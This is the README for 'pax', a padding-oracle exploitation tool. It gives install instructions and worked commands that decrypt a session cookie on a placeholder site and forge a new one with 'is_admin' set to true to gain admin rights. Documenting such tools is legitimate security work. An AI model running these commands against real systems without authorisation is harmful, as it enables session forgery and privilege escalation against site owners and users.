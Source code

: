 # pax

[![Travis Build Status](https://travis-ci.org/liamg/pax.svg?branch=master)](https://travis-ci.org/liamg/pax)
[![GoReportCard](https://goreportcard.com/badge/github.com/liamg/pax)](https://goreportcard.com/report/github.com/liamg/pax)

Exploit padding oracles for fun and profit!

Pax (PAdding oracle eXploiter) is a tool for exploiting padding oracles in order to:

1. Obtain plaintext for a given piece of CBC encrypted data.
2. Obtain encrypted bytes for a given piece of plaintext, using the unknown encryption algorithm used by the oracle.

This can be used to disclose encrypted session information, and often to bypass authentication, elevate privileges and to execute code remotely by encrypting custom plaintext and writing it back to the server. 

As always, this tool should only be used on systems you own and/or have permission to probe!

## Installation

Download from [releases](https://github.com/liamg/pax/releases), or install with Go:

```bash
go get -u github.com/liamg/pax/cmd/pax
```

## Example Usage

If you find a suspected oracle, where the encrypted data is stored inside a cookie named `SESS`, you can use the following:

```bash
pax decrypt --url https://target.site/profile.php --sample Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D --block-size 16 --cookies "SESS=Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D"
```

This will hopefully give you some plaintext, perhaps something like:

```bash
 {"user_id": 456, "is_admin": false}
```

It looks like you could elevate your privileges here!

We can attempt to do so by first generating our own encrypted data that the oracle will decrypt back to some sneaky plaintext:

```bash
pax encrypt --url https://target.site/profile.php --sample Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D --block-size 16 --cookies "SESS=Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D" --plain-text '{"user_id": 456, "is_admin": true}'
```

This will spit out another base64 encoeed set of encrypted data, perhaps something like:

```
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```

Now we open our browser and set the value of the `SESS` cookie to the above value. Loading the original oracle page we should now see we are elevated to admin. 

## How does this work?

The following are great guides on how this attack works:

- https://robertheaton.com/2013/07/29/padding-oracle-attack/
- https://blog.skullsecurity.org/2013/padding-oracle-attacks-in-depth
